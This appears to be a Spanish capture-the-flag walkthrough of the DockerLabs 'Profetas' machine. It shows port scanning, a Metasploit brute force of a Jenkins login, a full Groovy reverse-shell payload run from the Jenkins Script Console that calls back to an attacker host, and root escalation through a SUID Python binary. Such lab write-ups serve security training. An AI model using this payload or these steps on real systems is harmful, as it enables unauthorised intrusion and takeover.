


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Jenkins` `Brute Force` `Metasploit` `Groovy` `RCE` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip profetas.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh profetas.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p8080 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-18 18:28 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000037s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.20)
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Identificamos el puerto `8080` abierto corriendo un servicio `Jetty`.

Accedemos al puerto `8080` desde el navegador y nos encontramos con un panel de `login` de `Jenkins`.



Probamos credenciales por defecto, pero no dan resultado.

## FUERZA BRUTA

Decidimos probar un ataque de `fuerza bruta` al login de `Jenkins` utilizando `Metasploit`.

```Bash
msfconsole -q
```

Configuramos el módulo `jenkins_login` con el usuario `admin` y el diccionario `rockyou.txt`.

```Bash
msf > use auxiliary/scanner/http/jenkins_login
msf auxiliary(scanner/http/jenkins_login) > set RHOSTS 172.17.0.2
msf auxiliary(scanner/http/jenkins_login) > set USERNAME admin
msf auxiliary(scanner/http/jenkins_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(scanner/http/jenkins_login) > run
```

Info:
```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
```

Encontramos credenciales válidas `admin` : `rockyou`.

Nos autenticamos a través del panel de login de `Jenkins` y accedemos al dashboard. 

## ACCESO INICIAL

Navegamos al apartado Manage Jenkins -> `Script Console`.



Utilizaremos esta consola para ejecutar código arbitrario y obtener una `reverse shell`.

Ponemos un `listener` en nuestra máquina atacante.

```Bash
sudo nc -nlvp 4444
```

Utilizaremos una `reverse shell` en `Groovy` obtenida de la página `revshells.com`.

```Groovy
String host="172.17.0.1";int port=4444;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Lo pegamos en la `Script Console` y lo ejecutamos.

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52434
whoami
jenkins
```

Recibimos la shell como el usuario `jenkins`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```Bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/python3.10
```

Observamos que el binario `/usr/bin/python3.10` tiene permisos `SUID`. Podemos abusar de esto para escalar privilegios importando la librería os y lanzando una sh con privilegios mantenidos.

```Bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```
# whoami
root
#
```

Ya somos root!

